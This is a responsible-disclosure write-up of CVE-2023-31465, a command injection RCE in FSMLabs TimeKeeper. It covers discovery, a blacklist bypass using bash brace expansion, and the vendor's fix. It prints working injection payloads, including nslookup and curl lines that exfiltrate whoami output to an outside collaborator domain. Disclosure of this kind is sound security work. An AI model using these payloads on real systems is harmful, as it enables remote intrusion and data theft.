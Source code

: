 # CVE-2023-31465 | TimeKeeper by FSMLabs - RCE
During a PT activity, we managed to find a Remote Command Execution vulnerability in TimeKeeper and, while fixing it, we had the opportunity to modify and evolve the payload.
In the first paragraph we are going to explain the discovery and exploitation of the vulnerability, and this was performed during the time of the penetration testing, while in the second paragraph 
we will show the fix attempts, the re-exploitation and the final countermeasure.


## TimeKeeper version 2.0.17

In the image below is represented the request that is employed by TimeKeeper in order to set the source of IPs that has to be synchronized.

![req](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/f6e13bf7-2755-40f4-8d8c-09cf66116815)

During our first analysis, we used some Windows and Linux concatenation strings with the **ping** command to check a potential RCE vulnerability. 
We first discovered it in the *arg2* query parameter, with the following payload appended to the **earliest** number value:

```
||ping -c 10 127.0.0.1
```

A time delay was triggered, so we kept testing with other techniques and payloads.

After some time, we uncovered the following payload, useful for retrieving hex-encoded information (the data has been hex-encoded with *xxd* in order to avoid cutting off due to the DNS protocol):

```
||nslookup $(xxd -pu <<< $(whoami)).OASTIFY.DOMAIN||x
```

Below you can observe, respectively:
* the malicious request;

![poc1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/1a99f5a7-939a-4bfd-aab9-f9226e0d3351)

* the burp collaborator DNS interactions with hex-data exfiltrated;

![poc2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/265b70a5-a80c-4dea-9143-5663f9aab18b)
 
* the hex-decoded values for the **whoami** and **id** commands.

![poc3](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/61f12806-36ba-46b7-b0d0-c928e0b7275d)


## TimeKeeper version 2.0.28 (BETA)

After discovering the vulnerability, we contacted directly FSMLabs to notify about the critical vulnerability.
They thanked and asked us to conduct more tests on the BETA version to ensure that the vulnerability has been fixed in the meanwhile, as version 2.0.17 was over 2 years old at the time of testing 
(2023).

A blacklist was implemented for some characters, such as: |, &, *, $, <, >, (, ), -. The previous payload, then, could not be used anymore. However, curly brackets were not
blacklisted, so we tried with the *bash expansion* technique.

Specifically, the following payload was injected:

```
;{curl,`whoami`.[collaborator_domain]};a
```

and we were still able to conduct a remote command execution.


## Remediation

The FSMLabs has fixed the vulnerability in TimeKeeper version 8.0.28.


## Vulnerable version of TimeKeeper

As a result of our testing, versions 2.0.17 through 2.0.27 are vulnerable to RCE.


## Discovered by

Francesco Iaria

Riccardo Degli Esposti

Claudio Rimensi

Francesco Varotto
